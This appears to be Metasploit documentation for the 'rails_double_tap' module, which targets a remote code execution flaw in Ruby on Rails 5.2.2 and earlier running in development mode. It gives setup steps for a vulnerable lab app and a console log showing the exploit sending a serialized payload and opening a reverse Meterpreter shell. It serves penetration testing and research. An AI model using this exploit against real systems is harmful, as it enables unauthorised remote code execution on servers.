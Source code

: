 ## Vulnerable Application

Ruby on Rails is a server-side web application framework written in Ruby. It is a model-view-controller (MVC) architecture, providing default structures for a database, a web service, and web pages. It is also a popular choice of framework among well known services and products such as Github, Bloomberg, Soundcloud, Groupon, Twitch.tv, and of course, Rapid7s Metasploit.

In development mode, Ruby on Rails versions including 5.2.2 and prior are vulnerable to a remote code execution vulnerability due to a predictable secret_key_base based on the name of the Rails application, and use it to create a signed serialized payload, and gain remote code execution.

## Vulnerable Setup

In order to set up a vulnerable box for testing, do this on a Linux machine (such as Ubuntu), and assuming you already have rvm installed:

```
$ rvm gemset create test
$ rvm gemset use test
$ gem install rails '5.2.1'
$ rails new demo
```

Next, `cd` to demo, and then modify the Gemfile like this:

```
$ echo "gem 'rails', '5.2.1'" >> Gemfile
$ echo "gem 'sqlite3', '~> 1.3.6', '< 1.4'" >> Gemfile
$ echo "source 'https://rubygems.org'" >> Gemfile
$ bundle
```

Next, add a new controller:

```
rails generate controller metasploit
```

And add the index method for that controller (under app/controllers/metasploit_controllers.rb):

```
class MetasploitController < ApplicationController
  def index
    render file: "#{Rails.root}/test.html"
  end
end
```

In the root directory, add a new test.html:

```
echo Hello World > test.html
```

Also, add that new route in config/routes.rb:

```
Rails.application.routes.draw do
  resources :metasploit
end
```

And finally, start the application (since no mode is specified, by default, it is development mode):

```
rails s -b 0.0.0.0
```

## Scenarios

### Server

```
$ rails server -b 0.0.0.0 
=> Booting Puma
=> Rails 5.2.1 application starting in development 
=> Run `rails server -h` for more startup options
Puma starting in single mode...
* Version 3.12.1 (ruby 2.6.0-p0), codename: Llamas in Pajamas
* Min threads: 5, max threads: 5
* Environment: development
* Listening on tcp://0.0.0.0:3000
Use Ctrl-C to stop
```

### Metasploit

```
msf exploit(multi/http/rails_double_tap) > check
[+] 172.16.249.141:3000 - The target is vulnerable.
msf exploit(multi/http/rails_double_tap) > exploit

[*] Started reverse TCP handler on 172.16.249.1:4444 
[*] Attempting to retrieve the application name...
[*] The application name is: Demo
[*] Stager ready: 433 bytes
[*] Sending serialized payload to target (1250 bytes)
[*] Sending stage (985320 bytes) to 172.16.249.141
[*] Meterpreter session 1 opened (172.16.249.1:4444 -> 172.16.249.141:62572) at 2019-04-25 16:29:43 -0500
[+] Deleted /tmp/LsvSGK.bin
[+] Deleted /tmp/tSJfp.bin

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > pwd
/home/sinn3r/demo
meterpreter >
```

